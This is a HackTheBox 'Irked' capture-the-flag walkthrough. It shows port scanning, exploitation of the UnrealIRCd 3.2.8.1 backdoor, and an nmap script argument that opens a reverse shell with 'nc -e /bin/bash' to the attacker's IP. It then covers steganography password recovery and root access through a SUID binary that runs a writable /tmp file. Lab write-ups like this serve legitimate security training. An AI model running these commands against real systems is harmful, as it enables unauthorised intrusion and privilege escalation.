```yaml
---
title: HackTheBox - Irked
date: 2020-12-29 14:15:34 +0100
categories: [Hackthebox walkthroughs, Linux, Easy]
tags: [htb-linux-easy, backdoor, UnrealIRCd, steganography, linpeas, SUID, decompilation, ghidra, writeup, oscp-prep]
image: https://amirr0r.github.io/assets/img/htb/machines/linux/easy/irked/Irked.png
---
```


## Foothold

### `nmap` scan

```bash
$ nmap -min-rate 5000 --max-retries 1 -sV -sC -p- -oN Irked-full-port-scan.txt 10.10.10.117
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesn't have a title (text/html).
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          33669/tcp6  status
|   100024  1          43204/udp6  status
|   100024  1          43678/tcp   status
|_  100024  1          60648/udp   status
6697/tcp  open  irc     UnrealIRCd
8067/tcp  open  irc     UnrealIRCd
43678/tcp open  status  1 (RPC #100024)
65534/tcp open  irc     UnrealIRCd
Service Info: Host: irked.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Apache/2.4.10 (port 80)

![web](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/irked/web.png)

![source](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/irked/source.png)

#### `dirb`

![dirb](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/irked/dirb.png)

![manual](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/irked/manual.png)

Nothing seems vulnerable on the Apache server. What about IRC ? 

### UnrealIRCd (port 6697, 8067, 65534)

According to the [RFC 1459](https://tools.ietf.org/html/rfc1459#section-4.1), in order to discuss with an IRC server we have to send 3 information: `PASS`, `NICK` and `USER`.

![RFC 1459](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/irked/RFC.png)

Let's send them to the target:

![irc](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/irked/irc.png)

Now we know **UnrealIRCd**'s version: `3.2.8.1`.

#### Manual exploit

By looking for exploits on this specific version, I came across this article describing [a backdoor in UnrealIRCd](https://lwn.net/Articles/392201/):

![backdoor](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/irked/backdoor.png)

Indeed, if we use `searchsploit` to find IRC's exploits the first one is about this backdoor:

![searchsploit](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/irked/searchsploit.png)

Let's try to exploit this vuln manually. We have to send a payload containing `AB + <command that we want to run>`.

- ICMP test:

![icmp-test](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/irked/icmp-test.png)

- Reverse shell:

![reverse-shell](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/irked/reverse-shell.png)

> **Note**: we could have used `metasploit`, or  `nmap` with the following options `--script=irc-unrealircd-backdoor --script-args=irc-unrealircd-backdoor.command="nc -e /bin/bash 10.10.14.6 4444"`

## User (ircd)

```bash
ircd@irked:~/Unreal3.2$ cd /home
ircd@irked:/home$ ls -la
total 16                                      
drwxr-xr-x  4 root     root     4096 May 14  2018 .
drwxr-xr-x 21 root     root     4096 May 15  2018 ..
drwxr-xr-x 18 djmardov djmardov 4096 Nov  3  2018 djmardov 
drwxr-xr-x  3 ircd     root     4096 May 15  2018 ircd 
ircd@irked:/home/$ cd djmardov
ircd@irked:/home/djmardov$ cd Documents
ircd@irked:/home/djmardov/Documents$ ls -la
ls -la
total 16
drwxr-xr-x  2 djmardov djmardov 4096 May 15  2018 .
drwxr-xr-x 18 djmardov djmardov 4096 Nov  3  2018 ..
-rw-r--r--  1 djmardov djmardov   52 May 16  2018 .backup
-rw-------  1 djmardov djmardov   33 May 15  2018 user.txt
ircd@irked:/home/djmardov/Documents$
```

Okay so we have to privesc to **djmardov**'s account in order to read his `user.txt`. What's inside `.backup`?

```bash
ircd@irked:/home/djmardov/Documents$ cat .backup
cat .backup
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
ircd@irked:/home/djmardov/Documents$
```

There is mention of steg which corresponds to steganography.

The only file that I think contains a secret is this image on the web page. Let's download it, and run `steghide` with the password `UPupDOWNdownLRlrBAbaSSss` found in `.backup`:

![pass](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/irked/pass.png)

`Kab6h+m+bbp2J:HG` is certainly the password of **djmardov**.

## User (djmardov)

Indeed we can use this password to log in with SSH:

![ssh](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/irked/ssh.png)

- Flag:

```bash
djmardov@irked:~$ cd Documents/
djmardov@irked:~/Documents$ cat user.txt 
4a66a78b12dc0e661a59d3f5c0267a8e
```

We cannot run `sudo`:

```bash
djmardov@irked:~$ sudo -l
-bash: sudo: command not found
```

If we take a closer look at the SUID files, we can see that `exim4` and` viewuser` are the most recently updated ones.

![SUID](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/irked/SUID.png)

I copied `viewuser` to my machine _(because I was more intrigued by this binary than exim4 which is a known Mail Transfer Agent)_ and I opened it with `ghidra`.

![scp](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/irked/scp.png)

Here is the disassembled main function:

![ghidra disassembled main](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/irked/ghidra-main.png)

> **Note**: we could also use `ltrace`.

`setuid(0)` is set just before `system("/tmp/listusers")`

So we just have to put a malicious content in `/tmp/listusers` and then execute `viewuser`.

## Root

```bash
djmardov@irked:/tmp$ echo "/bin/bash" > /tmp/listusers; chmod +x /tmp/listusers; viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2020-12-29 03:32 (:0)
djmardov pts/0        2020-12-29 04:05 (10.10.14.7)
root@irked:/tmp# id
uid=0(root) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)
root@irked:/tmp# cat /root/root.txt
8d8e9e8be64654b6dccc3bff4522daf3
```

___

## Useful links

- [A backdoor in UnrealIRCd](https://lwn.net/Articles/392201/)